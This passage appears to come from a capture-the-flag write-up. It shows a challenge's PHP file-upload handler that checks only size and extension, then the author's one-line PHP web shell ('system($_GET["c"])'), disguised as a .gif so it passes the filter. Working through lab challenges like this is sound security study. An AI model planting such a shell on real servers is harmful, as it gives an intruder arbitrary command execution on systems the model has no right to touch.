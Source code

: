 ![Base64 decode](/assets/img/umass/hermit/decode.png)

```php
<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
  $filename = tempnam($target_dir, '');
  $uploadOk = 1;
  $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));

  // Check file size
  if ($_FILES["fileToUpload"]["size"] > 50000) {
    echo "Sorry, your file is too large.";
    $uploadOk = 0;
  }

  // Allow certain file formats
  if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg"
  && $imageFileType != "gif" ) {
    echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed.";
    $uploadOk = 0;
  }

  // Check if $uploadOk is set to 0 by an error
  if ($uploadOk == 0) {
    echo "<p>Sorry, your file was not uploaded.</p>";
    echo "<a href='/'>Back</a>";
  // if everything is ok, try to upload file
  } else {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $filename)) {
      echo "<p>The file ". htmlspecialchars( basename( $_FILES["fileToUpload"]["name"])) . " has been uploaded to " . $filename . "</p>";
      $path = "/show.php?filename=" . rawurlencode(basename($filename));
      echo "<a href=$path>See Image</a>";
    } else {
      echo "<p>Sorry, there was an error uploading your file.</p>";
      echo "<a href='/'>Back</a>";
    }
  }
```
A big file or non-image upload is restricted. Looks like a PHP shell as an image will likely pass through. Let's go with a tiny PHP shell.
```bash
echo '<?php system($_GET["c"]); ?>' > test.php.gif
```